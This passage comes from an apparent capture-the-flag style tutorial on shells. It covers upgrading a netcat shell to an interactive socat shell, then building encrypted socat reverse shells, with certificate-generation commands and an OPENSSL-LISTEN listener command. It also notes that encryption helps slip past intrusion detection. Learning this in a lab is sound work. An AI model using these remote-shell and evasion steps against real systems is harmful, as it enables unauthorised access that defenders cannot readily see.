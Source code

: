 That's a lot to take in, so let's see it in action.

As normal, on the left we have a listener running on our local attacking machine, on the right we have a simulation of a compromised target, running with a non-interactive shell. Using the non-interactive netcat shell, we execute the special socat command, and receive a fully interactive bash shell on the socat listener to the left:

![task6-shell](./images/task6-shell.png)

Note that the socat shell is fully interactive, allowing us to use interactive commands such as SSH. This can then be further improved by setting the stty values as seen in the previous task, which will let us use text editors such as Vim or Nano.

If, at any point, a socat shell is not working correctly, it's well worth increasing the verbosity by adding `-d -d` into the command. This is very useful for experimental purposes, but is not usually necessary for general use.

### Answer the questions below

* How would we get socat to listen on TCP port 8080?

	`tcp-l:8080`

## Task 7 - Socat Encrypted Shells

One of the many great things about socat is that it's capable of creating encrypted shells -- both bind and reverse. Why would we want to do this? Encrypted shells cannot be spied on unless you have the decryption key, and are often able to bypass an IDS as a result.

We covered how to create basic shells in the previous task, so that syntax will not be covered again here. Suffice to say that any time `TCP` was used as part of a command, this should be replaced with `OPENSSL` when working with encrypted shells. We'll cover a few examples at the end of the task, but first let's talk about certificates.

We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:

`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`

This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.
We then need to merge the two created files into a single `.pem` file:

`cat shell.key shell.crt > shell.pem`

Now, when we set up our reverse shell listener, we use:

`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`
